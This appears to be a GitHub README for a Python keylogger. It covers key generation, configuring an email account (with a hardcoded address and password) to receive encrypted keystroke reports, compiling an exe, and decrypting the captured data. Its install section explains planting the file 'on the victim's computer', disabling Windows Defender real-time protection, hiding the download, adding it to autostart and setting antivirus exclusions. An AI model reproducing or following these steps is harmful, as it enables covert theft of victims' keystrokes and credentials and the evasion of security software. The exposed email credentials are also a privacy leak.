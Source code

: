 # Keylogger

## Libraries used

```python
import platform
import smtplib
import socket
import threading
from cryptography.fernet import Fernet
from pynput.mouse import Listener as MouseListener
from pynput.keyboard import Listener as KeyboardListener
```

## How to use

1. Run the GenerateKey.py program and in the folder where the program is saved, in the file encrypted_key.txt find the generated key, copy this key and then
paste in the keylogger.py program.
2. In the code of the keylogger.py program at the bottom, fill in the fields:
```python
SEND_REPORT_EVERY = 20 # in seconds, 60 means 1 minute and so on
EMAIL_ADDRESS = "dysk2115@gmail.com"
EMAIL_PASSWORD = "Tutajwojtek1"
.
.
.
keylogger = Keylogger(interval=SEND_REPORT_EVERY, report_method="email",key="tKFQ4BGUYMR8iPH8otfSPy2z_uvhu7yQN3yL36cZy-E=")
```
3. Using the auto-py-to-exe program, we generate the keylogger exe file
4. Install the keylogger.exe program on the victim's computer (installation scenario)
5. After receiving an email with encrypted data, we copy it to the e_keys_logged.txt file,
In the DecryptFile.py program, we set the key and the path under which we have the file
e_keys_logged.txt. We run the program, as a result of the program's operation, it is created
keys_logged.txt file containing decrypted data from the victim's computer.

## How to install

1. Go to "Protection against viruses and threats", then under "Protection settings
from viruses and threats" click "Manage Settings" and then turn it off
"Real-time protection".
2. Downloading the exe executable file from the Internet, then removing the search from
history and renaming the file.
3. Pressing the System Button and the "R" key at the same time, typing "shell:startup" and
adding the exe file to the autostart folder.
4. Being in "Virus and threat protection settings" we find Exclusions and
click "Add or remove exclusions", add the exclusion as a file by selecting our file
exe (additionally, I also add the entire autostart folder to exclusions) located in
autostart directory.
5. Return to "Virus & Threat Protection Settings" , enable protection in
real time.

